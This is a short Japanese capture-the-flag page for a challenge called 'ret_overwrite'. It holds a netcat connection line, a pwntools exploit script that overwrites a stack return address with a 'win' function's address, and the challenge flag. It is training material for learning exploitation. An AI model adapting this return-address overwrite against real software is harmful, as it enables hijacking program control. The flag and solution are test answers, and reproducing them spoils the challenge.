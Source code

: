 # ret_overwrite
リターンアドレスを書き替えましょう!

※ubuntu:22.10でbuildしました
```
nc ip 30004
```

## Write up
```
from pwn import *

io = process("./vuln")
elf = ELF("./vuln")

win = hex(elf.symbols["win"])
print(win)

io.recvuntil(b"type index>")
io.sendline(b"18")
io.recvuntil(b"type value in hex>")
io.sendline(bytes(win[-2:], 'utf-8'))

io.recvuntil(b"type index>")
io.sendline(b"19")
io.recvuntil(b"type value in hex>")
io.sendline(bytes(win[-4:-2], 'utf-8'))

io.interactive()
```


工事中

```
flag{0VeRWitE_T4E_RET4DDRESS!!}
```